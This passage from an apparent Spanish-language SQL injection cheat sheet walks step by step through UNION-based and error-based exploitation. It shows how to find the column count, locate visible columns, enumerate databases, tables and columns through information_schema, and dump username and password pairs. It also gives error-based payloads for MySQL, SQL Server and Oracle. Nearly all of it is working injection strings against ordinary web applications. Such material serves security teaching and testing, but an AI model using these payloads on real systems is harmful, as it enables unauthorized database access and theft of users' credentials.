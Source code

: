    - Si `id` es numérico: `?id=0` o `?id=-1` (asumiendo que no existen IDs negativos o cero).
   - Si `id` es un string (o para romper la lógica): `?id=1'` (para cerrar una comilla)
   - Ejemplo: `?id=0' UNION SELECT ... ;--`
2. **Determinar el Número de Columnas:** El `UNION SELECT` requiere que ambas consultas tengan el mismo número de columnas.

   - **Usando `ORDER BY`:**
     - `?id=0' ORDER BY 1;--`
     - `?id=0' ORDER BY 2;--`
     - ... Incrementar el número hasta que la aplicación devuelva un error (e.g., "Unknown column in order clause" o similar). El número anterior al error es el número de columnas.
   - **Usando `UNION SELECT NULL,NULL,...`:**
     - `?id=0' UNION SELECT NULL;--`
     - `?id=0' UNION SELECT NULL,NULL;--`
     - ... Incrementar el número de `NULL`s hasta que la consulta se ejecute sin error. `NULL` se usa porque suele ser compatible con la mayoría de los tipos de datos.
3. **Identificar Columnas que Muestran Datos:** Una vez conocido el número de columnas (e.g., 4), averiguar cuáles de ellas se muestran en la página.

   - `?id=0' UNION SELECT 'a','b','c','d';--` (o números, o `NULL`s con un string de prueba)
   - Observar la página para ver dónde aparecen "a", "b", "c", "d". Si, por ejemplo, "b" y "d" aparecen, esas son las columnas que podemos usar para exfiltrar datos.
4. **Extraer Información de la Base de Datos (Ejemplos para MySQL/MariaDB):** `information_schema` es una base de datos que contiene metadatos sobre todas las demás bases de datos, tablas y columnas. (Otros SGBD tienen equivalentes: `sys.` en SQL Server, `all_tables`/`all_tab_columns` en Oracle).

   - **Listar Bases de Datos (Esquemas):** (Asumiendo que la columna 2 es visible) `?id=0' UNION SELECT NULL,GROUP_CONCAT(SCHEMA_NAME),NULL,NULL FROM information_schema.SCHEMATA;--` (`GROUP_CONCAT` es específico de MySQL/MariaDB para agrupar múltiples resultados en una sola cadena. SQL Server: `STRING_AGG`. Oracle: `LISTAGG`).
   - **Listar Tablas de una Base de Datos (e.g., `mi_db_secreta`):** `?id=0' UNION SELECT NULL,GROUP_CONCAT(TABLE_NAME),NULL,NULL FROM information_schema.TABLES WHERE TABLE_SCHEMA='mi_db_secreta';--`
   - **Listar Columnas de una Tabla (e.g., `usuarios` en `mi_db_secreta`):** `?id=0' UNION SELECT NULL,GROUP_CONCAT(COLUMN_NAME),NULL,NULL FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='mi_db_secreta' AND TABLE_NAME='usuarios';--`
   - **Extraer Datos de una Tabla (e.g., `usuario` y `contrasena` de la tabla `usuarios`):** `?id=0' UNION SELECT NULL,GROUP_CONCAT(CONCAT_WS(':', usuario, contrasena)),NULL,NULL FROM mi_db_secreta.usuarios;--` (Usando `CONCAT_WS` para concatenar usuario y contraseña con un delimitador `:`) O si solo puedes mostrar un valor a la vez en una columna visible y necesitas dos columnas para usuario y pass: `?id=0' UNION SELECT NULL, usuario, contrasena, NULL FROM mi_db_secreta.usuarios LIMIT 0,1;--` (para el primer usuario)

### SQLi In-band: Explotación Basada en Errores

Si la aplicación muestra mensajes de error detallados de la base de datos, se pueden usar funciones específicas del SGBD para forzar que los resultados de una consulta se muestren dentro del mensaje de error.

- **MySQL:** `EXTRACTVALUE()`, `UPDATEXML()`
  - `?id=1' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version))) ;--` (Muestra la versión de MySQL)
  - `?id=1' AND UPDATEXML(1, CONCAT(0x7e, (SELECT database())), 1) ;--` (Muestra la base de datos actual)
- **SQL Server:** Usar conversiones de tipo que fallen.
  - `?id=1' AND 1=(SELECT CAST(@@version AS INT));--` (El error mostrará la versión)
- **Oracle:** `CTXSYS.DRITHSX.SN`, `DBMS_XSLPROCESSOR.READ_DTD`, `UTL_INADDR.GET_HOST_NAME`
  - `?id=1' AND 1=XMLType((select banner from v$version where banner like 'Oracle%'));--`
